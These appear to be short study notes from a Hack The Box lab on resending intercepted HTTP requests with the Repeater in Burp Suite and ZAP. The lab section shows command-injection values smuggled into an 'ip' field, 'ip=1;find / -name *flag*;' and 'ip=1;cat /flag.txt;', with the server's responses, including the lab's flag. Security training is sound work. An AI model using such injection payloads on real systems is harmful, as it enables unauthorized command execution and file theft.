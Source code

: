 # Repeating Requests

1) Consult Proxy History
2) Click on one specific request to dipslay details
3) Repeating :
Burp :
[CTRL+R] in Burp to send it to the Repeater tab
Zap :
Open/Resend with Request Editor


## LAB

Burp :
[CTRL+R]
Repeater
Send

Request :
ip=1;find / -name *flag*;

Response :
/var/www/html/flag.txt
/flag.txt

Request :
ip=1;cat /flag.txt;

Response :
HTB{qu1ckly_r3p3471n6_r3qu3575}